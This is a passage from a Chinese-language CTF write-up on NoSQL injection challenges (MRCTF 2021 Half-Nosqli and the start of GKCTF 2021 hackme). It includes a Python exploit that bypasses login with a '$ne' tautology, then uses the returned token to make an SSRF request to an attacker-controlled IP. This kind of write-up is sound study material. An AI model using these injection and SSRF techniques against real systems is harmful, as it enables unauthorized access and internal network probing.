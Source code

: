 ![img](https://p5.ssl.qhimg.com/t012ae8cea6a338f864.png)

有两个 Api 接口，一个是 `/login` 用于登录，另一个是 `/home` 可通过 url 属性进行 SSRF。我们可以编写脚本来访问这两个 Api 接口。首先访问 `/home`接口报错，因为需要验证，所以思路应该是先访问 `/login` 接口进行登录，登录后拿到 token 再去访问 `/home` 接口。这里由于题目名提示了是 NoSQL，所以我们可以直接使用 NoSQL 的永真式绕过。

这里没有任何过滤，Exp 如下：

```python
import requests
import json

url = "http://node.mrctf.fun:23000/"
json_data = {
  "email": {"$ne": ""},
  "password": {"$ne": ""}
}
res = requests.post(url=url+'login',json=json_data)
token = res.json()['token']

json_data2 = {
    "url":"http://47.xxx.xxx.72:4000"    # 通过这里的url值进行SSRF
}

headers = {
    "Authorization":"Bearer "+token
}
res2 = requests.post(url=url+'home',json=json_data2,headers=headers)
print(res2)
```

这样我们便可以通过 `/home` 接口的 url 值进行SSRF了：

![img]()

接下来是一个 HTTP 拆分攻击，详情请看：[[2021 MRCTF\]Half-Nosqli](https://whoamianony.top/2021/04/20/Web安全/HTTP响应拆分攻击（CRLF Injection）/#2021-MRCTF-Half-Nosqli)

### [GKCTF 2021]hackme

进入题目，是一个登录框：

![img](https://p3.ssl.qhimg.com/t018cd339f28bbea6b1.png)

查看源码发现如下提示：

```html
<!--doyounosql?-->
```

应该是 nosql 注入，随机登录抓包发现解析 json：

![img](https://p3.ssl.qhimg.com/t010f619f2ab1dcb94a.png)

首先构造永真式：

